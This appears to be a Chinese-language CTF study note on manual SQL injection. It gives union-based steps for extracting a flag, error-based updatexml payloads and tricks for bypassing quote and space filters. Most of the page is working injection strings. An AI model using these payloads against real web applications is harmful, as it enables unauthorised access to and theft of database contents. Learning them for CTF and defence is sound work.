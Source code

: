 ```yaml
---
title: CTF SQLI
toc: true
date: 2021-04-25 17:12:07
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```


### 手注流程
1. 页面里有一个POST表单，测试会不会有注入漏洞
    POST里
    id=1'和id=1'#
    id=1' and 1=2#和id=1' and 1=1#
    前一个不回显后一个回显，那么说明存在注入。
1. 判断字段数：有四个字段
    id=1' order by 4#
1. 判断回显位：
    id=1' union select 1,2,3,4# 有正常回显
    id=1' union select 1,2,3# 无回显，证明该数据库在第四位，查询该数据库名

1. id=0' union select 1,2,3,database()# 查到表名为skctf，继续查数据表（tables）名
1. id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#
1. id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#
1. 查询数据：
    id=0' union select 1,2,3,skctf_flag from fl4g#
    得到flag。

### 手注变种：报错注入
https://www.cnblogs.com/c1047509362/p/12806297.html
1. `1'or(updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1))='1` 爆出数据库
1. `1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))，0x7e),1))='1` 爆当前数据库表信息
1. `1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_schema=wp_links)and(table_name='users')),0x7e),1))='1` 爆user表字段信息
1. `1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users)),1) #` 爆数据库内容
ref：https://www.codenong.com/cs106450896/

#### 报错注入变种：无单引号版
1. `aid=(select%201%20and%201=updatexml(1,concat(0x7e,(select(user())),0x7e),1))&target=1`


### 注入各种问题处理方法
1. 提示输出信息超过一行：使用group_concat,eg:3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1
字符串超过group_concat限制，使用limit 0,1单独输出，limit 0,1 表示输出第一个数据。 0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）。
ref：https://blog.csdn.net/forwardss/article/details/104682924
1. 替代空格：
    * 使用括号，eg：`3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1`
    * 使用内联注释：`/**/`
1. 报错注入，返回值XPATH syntax error有长度限制，为32bytes。使用substr截取需要的部分回显`updatexml(1,concat(0x7e,substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,32),0x7e),1)`
1. substr不能用：利用not in。`(select%201%20and%201=updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where table_schema=database() and table_name not in(0x6e657773)),0x7e),1))&target=1`，注意not in里面必须有内容，然后一点点添加不需要的表名，筛选出需要的表名。
1. 单引号被转义为\：用0x5C替代单引号
ref：https://www.cnblogs.com/lwfiwo/p/11314408.html
1. 引号绕过导致table_name='user'不能用：user转换成十六进制编码0x7573657273
    ref：https://blog.csdn.net/weixin_39846361/article/details/113301753

### 其它资源
1. sqlmap源码payload构成：https://www.anquanke.com/post/id/188173#h2-3
1. https://cloud.tencent.com/developer/article/1669841
1. https://www.yuque.com/vipkylin/vunko7/svhwwn
